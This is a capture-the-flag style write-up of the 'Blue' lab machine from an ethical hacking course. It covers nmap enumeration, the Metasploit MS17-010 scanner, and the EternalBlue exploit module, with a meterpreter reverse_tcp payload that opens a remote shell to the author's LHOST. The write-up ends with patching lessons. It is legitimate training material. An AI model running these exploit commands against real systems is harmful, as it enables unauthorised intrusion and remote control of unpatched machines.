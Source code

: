 # 1st Capstone Machine
This is my write-up for the first machine in the capstone section of the Practical Ethical Hacking course.
## Machine Information
- **Name**: Blue
- **Difficulty**: Easy
- **OS**: Windows 7
  
## Tools Used
- nmap
- Metasploit

## Objectives
- Perform enumeration to identify open ports and services.
- Discover any potential vulnerabilities.
- Exploit the identified vulnerability to gain full access to the system.

## Enumeration
I ran an nmap scan to check for open ports

`nmap -A -vv <IP>`

The scan results revealed the following open ports:
- 135/tcp - Microsoft Windows RPC
- 139/tcp - NetBIOS-ssn
- 445/tcp - Microsoft Windows SMB

The SMB service (port 445) caught my attention since it is commonly associated with known vulnerabilities, particularly on older versions of Windows like Windows 7.

## Vulnerability Discovery
Given that the machine is running Windows 7 (Build 7601), I researched known vulnerabilities for this specific version and identified a well-known vulnerability called EternalBlue (CVE-2017-0143), which exploits a flaw in SMBv1.

To verify if the machine was vulnerable, I used Metasploit:

1. I searched for the EternalBlue vulnerability module:
   
`search eternalblue`

2. The search revealed an auxiliary scanner for MS17-010, the vulnerability that EternalBlue exploits.

3. I set the target IP in the scanner to check if the system was vulnerable:

   `use auxiliary/scanner/smb/smb_ms17_010`
   
    `set RHOSTS <target IP>`
   
    `run`

The auxiliary scan confirmed that the target is likely vulnerable to MS17-010.

## Exploitation
After confirming the vulnerability, I proceeded to exploit it using Metasploit's EternalBlue exploit module.

1. I selected the appropriate exploit:

   `use exploit/windows/smb/ms17_010_eternalblue`

2. I configured the necessary settings:
- Set the target IP (RHOST).
- Set my local IP as the LHOST.
- Chose a payload for a stable reverse shell:

  `set payload windows/x64/meterpreter/reverse_tcp`

3. With everything set, I launched the exploit

   `run`

## Lessons Learned
While EternalBlue is a well-known and widely exploited vulnerability, it still serves as a reminder that unpatched, older systems, remain highly vulnerable to this type of attack. Even though the vulnerability is old, it continues to be a significant threat in many corporate environments where systems are not updated regularly.

This machine reinforced the importance of:
- Regular patching of critical vulnerabilities.
- The risks posed by legacy systems still running outdated protocols like SMBv1.

![image](https://github.com/user-attachments/assets/ec62b7c9-3ccb-4e17-95e2-b499e16e6a36)

